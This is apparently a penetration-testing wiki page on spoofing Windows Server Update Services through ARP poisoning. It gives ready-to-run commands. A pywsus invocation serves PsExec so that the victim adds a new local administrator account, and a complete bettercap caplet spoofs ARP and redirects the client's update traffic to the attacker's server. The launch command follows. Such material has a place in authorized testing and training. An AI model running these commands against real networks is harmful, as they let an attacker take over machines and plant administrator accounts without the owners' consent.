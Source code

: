 

=== WSUS spoofing

ARP poisoning for [WSUS spoofing ](wsus-spoofing.md)in a two-subnets layout (attacker + client in the same segment, legitimate WSUS server in another one). Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

The evil WSUS server needs to be started before doing ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)(Python) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

Once the WSUS server is up and running, the ARP poisoning attack can start.


```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```


The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.
